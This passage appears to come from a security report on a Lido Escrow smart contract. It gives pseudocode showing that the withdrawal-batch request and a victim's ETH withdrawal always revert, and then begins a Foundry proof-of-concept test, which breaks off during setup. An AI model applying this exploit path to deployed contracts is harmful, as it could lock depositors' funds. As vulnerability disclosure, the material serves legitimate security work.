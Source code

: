 _Pseudocode:_

\`// This call will always fail expectRevert(WithdrawalsBatchesQueue.EmptyBatch); escrow.requestNextWithdrawalsBatch(100);

// Consequently, this will also always fail expectRevert(RageQuitExtensionPeriodNotStarted); victim.withdrawETH();\`

### **Runnable PoC Code**

**Environment and Dependencies:**

- **Framework:** Foundry
- **Command:**`forge test --mp test/AttackEscrow.t.sol -vvv`
- **Dependencies:**`forge-std`, `openzeppelin-contracts`

**`test/AttackEscrow.t.sol`:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

// --- Forge/Foundry Imports ---
import {Test, console} from "../lib/forge-std/src/Test.sol";
import {Clones} from "@openzeppelin/contracts/proxy/Clones.sol";

// --- Lido Contract Imports ---
import {Escrow} from "../contracts/Escrow.sol";
import {EscrowState as EscrowStateLib, State as EscrowState} from "../contracts/libraries/EscrowState.sol";
import {WithdrawalsBatchesQueue} from "../contracts/libraries/WithdrawalsBatchesQueue.sol";
import {Duration, Durations} from "../contracts/types/Duration.sol";
import {IWithdrawalQueue} from "../contracts/interfaces/IWithdrawalQueue.sol";
import {IDualGovernance} from "../contracts/interfaces/IDualGovernance.sol";
import {IStETH} from "../contracts/interfaces/IStETH.sol";
import {IWstETH} from "../contracts/interfaces/IWstETH.sol";

// --- Mock Contract Imports ---
import {StETHMock} from "./mocks/StETHMock.sol";
import {WstETHMock} from "./mocks/WstETHMock.sol";
import {WithdrawalQueueMock} from "./mocks/WithdrawalQueueMock.sol";

// --- OpenZeppelin Imports ---
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract EscrowAttackPoC is Test {
    // --- State Variables ---
    Escrow internal masterCopy;
    Escrow internal escrow; // This is the proxy contract we interact with.
    WithdrawalQueueMock internal withdrawalQueue;
    StETHMock internal stETH;
    WstETHMock internal wstETH;

    // --- Actors & Mock Addresses ---
    address internal immutable attacker = makeAddr("attacker");
    address internal immutable victim = makeAddr("victim");
    address internal immutable dualGovernanceAddress = makeAddr("dualGovernance");

    // --- Config ---
    Duration internal MIN_ASSETS_LOCK_DURATION;
    Duration internal MAX_MIN_ASSETS_LOCK_DURATION;
    uint256 constant VICTIM_DEPOSIT_AMOUNT = 100 ether;

    function setUp() public {
        MIN_ASSETS_LOCK_DURATION = Durations.from(1 days);
        MAX_MIN_ASSETS_LOCK_DURATION = Durations.from(100 days);
```